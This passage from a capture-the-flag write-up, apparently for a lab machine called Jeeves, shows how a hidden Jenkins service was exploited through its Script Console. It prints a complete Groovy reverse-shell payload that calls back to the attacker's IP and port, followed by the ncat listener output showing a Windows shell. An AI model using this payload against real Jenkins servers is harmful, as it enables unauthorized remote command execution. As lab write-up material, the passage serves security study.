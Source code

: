 Navigating to `http://10.10.10.63:50000/askjeeves` redirected me to a jenkins service:

![](./images/jeeves-hidden-jenkins-service.png)

## Exploitation (Jenkins Script Console Remote Code Execution)

After some google searching, I found out that it is possible to execute code from the Jenkins Script Console at `http://10.10.10.63:50000/askjeeves/script`. I used code from following [jist](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) to get a netcat reverse shell.

```none
String host="10.10.14.24";
int port=2001;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49676.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins>
```
